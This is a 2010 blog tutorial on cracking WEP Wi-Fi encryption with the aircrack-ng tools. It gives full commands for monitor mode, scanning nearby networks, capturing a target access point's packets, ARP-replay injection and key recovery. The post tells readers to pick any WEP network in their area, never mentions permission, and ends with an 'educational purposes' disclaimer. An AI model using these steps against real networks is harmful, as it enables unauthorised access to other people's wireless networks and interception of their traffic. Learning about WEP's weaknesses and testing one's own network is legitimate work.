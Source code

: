 ```yaml
---
comments: true
date: 2010-06-18 18:37:17
layout: post
slug: simple-wep-cracking
title: Simple WEP Cracking
wordpress_id: 298
categories:
- Systemless
tags:
- cracking
- security
- WEP Cracking
---
```

### 1 Introduction


This tutorial will show you how to crack a depreciated, but still used, wireless encryption algorithm called Wired Equivalent Privacy (WEP).  WEP was introduced in 1997 and was designed to provide the user with a secure connection comparable to that of traditional wired networks.  But sometime in 2001 weaknesses where beginning to show and in 2004 WEP was declared depreciated due to the fact that it was unable to meet its security goals.


### 2 Implementation


This tutorial is written for users of Linux, you may be able to follow along using Microsoft Windows, make sure to check the aircrack-ng website.  (http://www.aircrack-ng)

This tutorial is written with the then current version of aircrack, 1.0.  Download and compile the aircrack tools or use you download manager, search aircrack-ng, it should be easy to do.  Once that is done check it is working by typing “aircrack-ng” you should have a output that looks something like this:

	osaka@Nyu:~$ aircrack-ng

	Aircrack-ng 1.0 rc3 – (C) 2006, 2007, 2008, 2009 Thomas d’Otreppe
	Original work: Christophe Devine
	http://www.aircrack-ng.org
	etc ..

There will be four scripts from aircrack-ng that you will be using:

	airmon-ng <start|stop|check> <interface> [channel or frequency]

Script used for switching the wireless network card to monitor mode

	airodump-ng <options> <interface>[,<interface>,...]

Script used for WLAN monitoring and capturing network packets

	aireplay-ng <options> <replay interface> 

Script used to generate additional traffic on the wireless network

	aircrack-ng [options <.cap /.ivs file(s)>

Script used to recover the WEP key, or launch a dictionary attack on WPA-PSK using the captured data.

You will need to know some basic Linux networking commands.

	iwconfig [-v] [-a] [-s] [interface]

This is a standard Linux command it will display the status of the currently active interfaces.  If a single interface is given it will display only that interfaces status.

	-v	Be more verbose for some error conditions
	-a	Displays all interfaces which are currently available, even if down
	-s	Displays a short list (like netstat -i)


### 2.1 Action
To start, we need to reconfigure the network interface to promiscuous mode, or more commonly known as monitoring mode.  Some interfaces do not support this mode, google your card and find this out. This could be a problem if you are having trouble, make sure your card has this feature.  To start your interface in monitor mode simply type:

	airmon-ng start <interface>

If it worked it will create an alias to your specified interface, we will be using wlan0. To make sure if this has worked you should run the ifconfig command.  If it did work then you will see mon0 in the list of interfaces.

Now that your interface is set up correctly, we can move on to the next step this is to locate a crackable network.  Run the following script and you will have a display of the networks in your area in real-time.

	airodump-ng mon0

The data being displayed is information about wireless networks in your area, some of the information displayed is - Basic Service Set Identifier (BSSID) – which is the Media Access Control (MAC) address of the wireless access point (WAP), network channel etc.  We need to know what kind of encryption the network is using, as this is an article on cracking WEP, we should look for any network with the WEP encryption.

Once you find a network with WEP encryption we need to collect the data packets that are on the network to do this run the following command:

	airodump-ng -c <channel> --bssid <BSSID> -w <output-file> mon0
	airodump-ng -c 6 --bssid 00:0F:CC:7D:5A:74 -w dataFile mon0

This will capture the data being transmitted over a network using out interface mon0 on channel six from the wireless access point with the BSSID of 00:0F:CC:7D:5A:74 and write it to a file called data.

	-c		Network channel
	--bssid		Basic Service Set Identifier MAC Adderess
	-w		Write captured packets to file “dataFile”
	mon0		Is the alias to the wlan0 in monitor mode

We will need to collect about 10,000 data packets before we will be able to crack the encryption.  It will take anywhere from 5 – 30min to get enough packets, this depends on how much the network is being used.  If it has a lot of traffic then more packets will be sent out.

Now if it late at night or there is not a lot of traffic, then we can use the following command to make the wireless access point transmit some packets:

	aireplay-ng -3 -b 00:0F:CC:7D:5A:74 -h 00:14:A5:2F:A7:DE -x 50 wlan0**
	-3	This specifies the type of attack, in our case ARP-request replay
	-b	MAC address of access point
	-h	MAC address of associated client from airodump
	-x 50	Limit to sending 50 packets per second
	wlan0 Our wireless network interface

Again this could cause problems if your interface dose not support injection. Give google another shout.

Once you have 10,000 – 20,000 data packets you are ready to give cracking it a shot.  Now you should have a few files created in your current directory from the previous script, these are the files which contain the data packets that you collected, run the following script to get the WEP Encryption Key.

	aircrack-ng dataFile*.cap

It will take its time and you will see some really cool data displayed on your screen, then once its complete it will give you the key in plain text.


### 3 Conclusion
So as we can see within 10min of good data transmission we are able to gather enough data packets to be able to crack the encryption.  To crack WPA and WPA2 the method is more or less the same, but with a slight difference and more time is required.  Despite  the fact that WEP is a depreciated algorithm it is still used in homes and other places across the world today.

Remember this is for educational purposes and I hold no responsibility for your actions.

### 4 References
[http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy](http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy)
Simple wiki article explaining what WEP is.

[http://www.aircrack-ng.org](http://www.aircrack-ng.org/)
Lots of nice and useful information about the aircrack-ng package.